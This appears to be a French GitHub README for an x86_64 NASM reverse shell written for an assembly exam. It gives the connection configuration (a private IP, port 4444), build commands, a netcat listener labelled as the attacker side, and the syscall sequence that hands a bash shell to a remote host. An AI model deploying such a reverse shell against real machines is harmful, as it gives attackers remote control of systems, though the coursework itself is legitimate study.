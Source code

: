 # 🐚 Reverse Shell x86_64 Assembly - NASM

Reverse shell pour le partiel d'asm

## ✨ Fonctionnalités

- **🎯 Connexion TCP** : Reverse shell vers IP/port configurables
- **🔄 Reconnexion automatique** : Retry intelligent avec temporisation (5s)
- **🎨 Interface colorée** : Message d'accueil stylisé et prompt personnalisé
- **⚡ Shell interactif** : Bash complet avec environnement configuré
- **🔧 Code optimisé** : Assembleur NASM pur, compatible x86_64

## 🛠️ Configuration

### Paramètres de connexion
```asm
TARGET_IP:
    dw 2                    ; AF_INET
    dw 0x5c11               ; Port 4444 (network byte order)
    dd 0x936CA8C0           ; IP 192.168.108.147
```

### Variables d'environnement
- **PS1** : Prompt coloré avec répertoire courant
- **TERM** : Support terminal 256 couleurs
- **PATH** : Chemins système complets

## 🚀 Compilation & Utilisation

```bash
# Assemblage et linkage
nasm -f elf64 -o reverse_shell.o reverse_shell.asm
ld -o reverse_shell reverse_shell.o

# Exécution
./reverse_shell
```

### Côté attaquant
```bash
# Écoute sur le port configuré
nc -lvnp 4444
```

## 📋 Structure du Code

### Section .data
- Configuration de connexion (IP, port, famille)
- Messages d'interface utilisateur
- Variables d'environnement système
- Structure de temporisation

### Section .text
- **create_socket()** : Création socket TCP
- **connect()** : Connexion vers target
- **redir_io()** : Redirection stdin/stdout/stderr
- **shell()** : Lancement bash interactif
- **reconnect_if_fail()** : Gestion des échecs de connexion

## 🔧 Fonctions Principales

| Fonction | Syscall | Description |
|----------|---------|-------------|
| **socket()** | `41` | Création endpoint TCP |
| **connect()** | `42` | Connexion réseau |
| **dup2()** | `33` | Redirection E/S |
| **execve()** | `59` | Exec shell bash |
| **nanosleep()** | `35` | Temporisation retry |

